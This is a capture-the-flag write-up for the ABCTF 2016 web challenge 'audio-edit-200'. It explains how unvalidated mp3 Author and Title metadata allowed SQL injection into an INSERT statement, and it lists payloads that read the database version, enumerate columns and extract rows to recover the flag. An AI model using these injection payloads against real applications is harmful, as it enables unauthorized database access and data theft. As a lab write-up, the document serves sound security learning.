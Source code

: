 # ABCTF 2016 : audio-edit-200

**Category:** Web
**Points:** 200
**Solves:** 21
**Description:**

I made a cool site to edit audio files. [Can you exploit it?](http://107.170.122.6/audioedit/)

## Write-up

The site offers user to upload an mp3 and therewith do some modifications.
In order to save the uploaded file it's inserted into a database and when
requested it shows 'Author', 'Title' and the filename.
The latter is created as the sha1sum of the mp3 content.

Some test quickly revealed the input of 'Author' and 'Title' in the mp3-metadate aren't verified
and offer a SQL-injection vulnerability.

We figured the insertion statement looked smth. like this:

    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'author','title'...);

In order to an SQL-injection we have to create a special author and title field.
I used easyTAG but you can use whatever you like;-)
In order to do an injection and maintain a valid INSERTION statement you can create an mp3
with the following metadata:

   
    title  = "" (leer)
    author = a', (SELECT @@version))-- -b

Which creates the following statement

    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'a', (SELECT @@version))-- -b',''...);

The 'a' in the beginng and the 'b' in the end where necessary because first an last character where
discarded... why so ever...

This gave us the database version: 5.5.49-0ubuntu0.14.04.1

Next we wanted to know the database name:
    
    author = a', (SELECT database()))-- -b:
    audioedit

And of course the column names:

    author = a',(SELECT column_name FROM information_schema.columns WHERE table_name = 'audioedit' LIMIT x,1))-- -a
    with x in range(0,3):
    id
    file
    author
    title

So finally we wanted see whats in there:

    author = a',(SELECT author FROM audioedit.audioedit LIMIT 0,1))-- -a
    
... but it gaves us an insertion error!:(

The problem is you can't select from a database that you're inserting into at the same time... Thanks to Arxenix!:)

So we got around that using AS:

    author = a',(SELECT author FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    ABCTF 
    author = a',(SELECT title FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    flag 
    author = a',(SELECT file FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    supersecretflagf1le.mp3
    
And visited the corresponding site: http://107.170.122.6/audioedit/edit.php?file=supersecretflagf1le.mp3
    
Setting the visualisation to 'Sonogram' finally showed the flag:

    ABCTF{m3t4_inj3cti00n}



## Other write-ups and resources

* none yet
